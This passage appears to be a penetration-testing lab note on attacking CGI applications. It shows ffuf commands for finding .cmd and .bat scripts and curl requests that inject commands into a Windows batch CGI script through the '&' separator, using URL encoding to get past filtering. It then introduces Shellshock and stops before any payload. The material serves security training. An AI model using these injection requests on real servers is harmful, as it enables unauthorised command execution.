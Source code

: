   * finding CGI scripts:

    ```sh
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd -s
    # default directory for CGI scripts is /cgi or /CGI-bin

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat -s

    # check for web server content in case of any hits
    ```
  
  * exploitation:

    ```sh
    # suppose we find a batch file 'welcome.bat'
    # we can use command injection using batch command separator '&'

    curl "http://10.129.204.227:8080/cgi/welcome.bat?&dir"

    # we cannot run other commands like 'whoami'

    curl "http://10.129.204.227:8080/cgi/welcome.bat?&set"
    # retrieve list of env variables

    # as the PATH variable has not been set, we need to hardcore path in requests

    curl "http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe"
    # this does not work due to filtering special chars

    # we can use URL-encoding
    curl "http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe"
    ```

* Attacking CGI apps:

  * CVE-2014-6271, or the Shellshock vulnerability, is a flaw in the Bash shell and can offer RCE; it exploits how env variables saves functions

  * we can define an env variable and include a malicious command to check if the system is vulnerable:
